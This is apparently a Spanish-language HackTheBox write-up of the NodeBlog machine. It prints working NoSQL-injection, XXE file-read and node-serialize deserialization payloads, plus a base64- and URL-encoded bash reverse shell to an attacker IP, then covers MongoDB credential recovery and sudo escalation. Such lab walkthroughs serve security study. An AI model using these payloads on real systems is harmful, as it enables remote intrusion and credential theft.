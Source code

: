 ```yaml
---
title: NodeBlog | Linux
published: 2025-02-28
image: "./logo.png"
tags: [Easy, Linux, NoSQLi, XXE, Deserialization Attack, MongoDB Enum, eJPT, eWPT]
category: HackTheBox
---
```


## Información Básica

### Técnicas vistas

- NoSQL Injection (Authentication Bypass)
- XXE File Read
- NodeJS Deserialization Attack (IIFE Abusing)
- Mongo Database Enumeration

### Preparación

- eJPT  
- eWPT

***

## Reconocimiento

Para empezar vamos a hacer un escaneo para ver que puertos tiene abiertos esta máquina y que servicios y versiones usan.

```
sudo nmap -T4 --min-rate 1000 -p- -sCV -oN nmap_report 10.10.11.139
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FnmWg5rPPFIoIbPsAiHkC%2Fimg1.png?alt=media&#x26;token=da1eb531-cf6a-4704-90f9-797e2d85f41a" alt=""><figcaption></figcaption></figure>

Vemos que tiene 2 puertos abiertos, el 22 **SSH** y el 5000 que está corriendo un servidor web con **Express** como framework. Primero accederemos a este segundo puerto para ver el contenido de la página web.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FuneOlLLaOdBTlRVXVOlV%2Fimg2.png?alt=media&#x26;token=329b8946-b3f8-4043-8edd-c8d4fe713938" alt=""><figcaption></figcaption></figure>

Parece un blog simple, pero podemos ver un botón _Login_, vamos a ver que hay.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FeFj7nau7FgmOMrR4tJ7O%2Fimg3.png?alt=media&#x26;token=cc52086a-ff52-4724-94ce-73173dea8c4c" alt=""><figcaption></figcaption></figure>

## Explotación



Si interceptamos la solicitud con **Burpsuite** y cambiamos el parámetro de _Content-Type_ de **application/x-www-form-urlencoded** a **application/json**, nos dará un error que nos permitirá ver dónde se ubica este servidor.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F7C0yV6KZnR9FZEWsjhNX%2Fimg4.png?alt=media&#x26;token=0aff2105-35b4-4562-bffb-7a09fa3d8afc" alt=""><figcaption></figcaption></figure>

Vemos que está en /opt/blog, esto puede ser útil en un futuro. Además en el panel de login si probamos un usuario aleatorio, nos da el error _Invalid username_, pero con el usuario **admin** no, por lo que ese si que sería válido. Podríamos probar una **inyección NoSQL** con estos parámetros:

```json
{  
"user": "admin",  
"password": {"$ne": null}  
}

// Además de cambiar a application/json
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F0u1LQ4K79eG8YiKetHSD%2Fimg5.png?alt=media&#x26;token=ae8b61e5-ef16-4aa0-b4c2-8975c8909af9" alt=""><figcaption></figcaption></figure>

Podemos ver que hemos conseguido acceder. Si intentamos subir un archivo cualquiera devuelve lo siguiente: `Invalid XML Example: Example DescriptionExample Markdown` Por lo cual tendremos que hacer una **XXE Injection** (_XML External Entity_). Vamos a intentar un **LFI** creando un XML malicioso que injecte un comando.

{% code lineNumbers="true" %}
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<post>
<title>LFI Post</title>
<description>Read File</description>
<markdown>&file;</markdown>
</post>
```


<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FBrkjDHZ0Lydtkh5ujIgv%2Fimg6.png?alt=media&#x26;token=40ede2bd-4926-45ad-8b3c-b9793d4485f9" alt=""><figcaption></figcaption></figure>

Podemos ver que funciona correctamente, entonces como sabemos que el blog está en /opt/blog lo normal usando Express es que el archivo principal sea _server.js_ por lo que lo comprobaremos.

{% code lineNumbers="true" %}
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///opt/blog/server.js">
]>
<post>
<title>Server Code</title>
<description>Read File</description>
<markdown>&file;</markdown>
</post>
```


Nos devuelve lo siguiente:

{% code lineNumbers="true" %}
```javascript
const express = require('express')
const mongoose = require('mongoose')
const Article = require('./models/article')
const articleRouter = require('./routes/articles')
const loginRouter = require('./routes/login')
const serialize = require('node-serialize')
const methodOverride = require('method-override')
const fileUpload = require('express-fileupload')
const cookieParser = require('cookie-parser');
const crypto = require('crypto')
const cookie_secret = "UHC-SecretCookie"
//var session = require('express-session');
const app = express()

mongoose.connect('mongodb://localhost/blog')

app.set('view engine', 'ejs')
app.use(express.urlencoded({ extended: false }))
app.use(methodOverride('_method'))
app.use(fileUpload())
app.use(express.json());
app.use(cookieParser());
//app.use(session({secret: "UHC-SecretKey-123"}));

function authenticated(c) {
    if (typeof c == 'undefined')
        return false

    c = serialize.unserialize(c)

    if (c.sign == (crypto.createHash('md5').update(cookie_secret + c.user).digest('hex')) ){
        return true
    } else {
        return false
    }
}


app.get('/', async (req, res) => {
    const articles = await Article.find().sort({
        createdAt: 'desc'
    })
    res.render('articles/index', { articles: articles, ip: req.socket.remoteAddress, authenticated: authenticated(req.cookies.auth) })
})

app.use('/articles', articleRouter)
app.use('/login', loginRouter)


app.listen(5000)
```


Podemos ver que usa el paquete de **node-serialize** el cual si buscamos un poco econtraremos que es [vulnerable](https://medium.com/@firstprof.com/hackthebox-writeup-active-676aa4bd605f). Vemos que se usa para deserializar la cookie. Entonces si le pasamos un código serializado de JavaScript malicioso, podremos obtener lo que se llama un **IIFE** (_Immediately Invoked Function Expression_) en consecuencia ejecución arbitraria de código. Para comprobar si esto es viable, crearemos un código simple para hacernos un ping a nosotros mismos. Para ello usaremos este código:


```json
serialize{"rserializece":"_$$ND_FUNC$$_function (){require('child_process').exec('ping -c 1 10.10.14.16', function(error, stdout, stderr) { console.log(stdout) });}()"}
```


Y URL Encoded quedaría así:


```json
%7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%20%28%29%7b%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%70%69%6e%67%20%2d%63%20%31%20%31%30%2e%31%30%2e%31%34%2e%31%36%27%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d
```


Entonces esa sería nuestra Auth Cookie maliciosa, simplemente la ponemos en el navegador:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FnY8LvAONyGF5TKCgog3F%2Fimg7.png?alt=media&#x26;token=e624de38-1e6a-409e-a49a-88241263c64c" alt=""><figcaption></figcaption></figure>

> _Nota: A veces tienes que volver entrar a la web y poner la cookie porque va raro, pero deberías recibir el ping._

Al ponernos a la escucha con **tcpdump** por la interfaz tun0 recibimos el pin.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FaQG1JauarzjuHznxrjBB%2Fimg8.png?alt=media&#x26;token=60295bdc-285e-42d9-baef-c3935d822bfb" alt=""><figcaption></figcaption></figure>

Por lo que ya podríamos crear una revshell.

```sh
echo -n 'bash -i >& /dev/tcp/10.10.14.16/4444 0>&1' | base64
```

Quedaría algo así:

```
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTYvNDQ0NCAwPiYx
```

Ahora lo metemos a la cookie añadiendo el decodeado y el bash para que lo ejecute:

```bash
echo -n YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTYvNDQ0NCAwPiYx | base64 -d | bash
```


```json
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('echo -n YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTYvNDQ0NCAwPiYx | base64 -d | bash', function(error, stdout, stderr) { console.log(stdout) });}()"}
```


Y URL Encoded quedaría así:


```json
%7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%20%28%29%7b%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%65%63%68%6f%20%2d%6e%20%59%6d%46%7a%61%43%41%74%61%53%41%67%50%69%59%67%4c%32%52%6c%64%69%39%30%59%33%41%76%4d%54%41%75%4d%54%41%75%4d%54%51%75%4d%54%59%76%4e%44%51%30%4e%43%41%77%50%69%59%78%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68%27%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d
```


Si lo pasamos a la cookie y nos ponemos a la escucha en el puerto **4444** obtendremos la shell.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FerZZ2ZKM7KyZ8BRc61tu%2Fimg9.png?alt=media&#x26;token=bd92f8ab-eab1-4a33-9274-2dc8ab59d966" alt=""><figcaption></figcaption></figure>

Deberemos de dar permisos para poder abrir /home/admin con:

```
chmod +x /home/admin
```

Y ya podremos ver la user flag:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FNsD8okbtIlI68zvy9j1M%2Fimg10.png?alt=media&#x26;token=d5d22649-8ead-45a7-8fb2-7e1b7a7454da" alt=""><figcaption></figcaption></figure>

Recordando que tenía **MongoDB** gracias al /etc/passwd podemos intentar listar los puertos abiertos internos de la máquina con:

```
ss -tln
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FFYR9f8UQnPCgeKbhlE3z%2Fimg11.png?alt=media&#x26;token=233b8975-c119-4cf7-8360-bd3ec8b31cf9" alt=""><figcaption></figcaption></figure>

Efectivamente, vemos que el puerto **27017** está abierto. Si usamos mongo para listar DB y todo lo que contiene...

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FdVHVb7sW5uBOD7k3bMT5%2Fimg12.png?alt=media&#x26;token=6497d7e0-d8d3-4833-a97e-f8cab1cf699e" alt=""><figcaption></figcaption></figure>

Vemos que hay una contraseña de un usuario admin, por lo que la copiamos:&#x20;

```
IppsecSaysPleaseSubscribe
```

Si hacemos un **sudo -l** nos devuelve con la contraseña:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FdjZOzrl0JGBPCfZcZw55%2Fimg13.png?alt=media&#x26;token=a90e33fb-559a-464f-bbdb-7e5227a2a296" alt=""><figcaption></figcaption></figure>

Y ya simplemente hacemos sudo su y obtenemos la root flag:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FcLHMMIWIGn1MBy1oSNMf%2Fimg14.png?alt=media&#x26;token=3ebfb71a-9ff6-4c2c-a10c-6e8fec69a608" alt=""><figcaption></figcaption></figure>

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/430)

---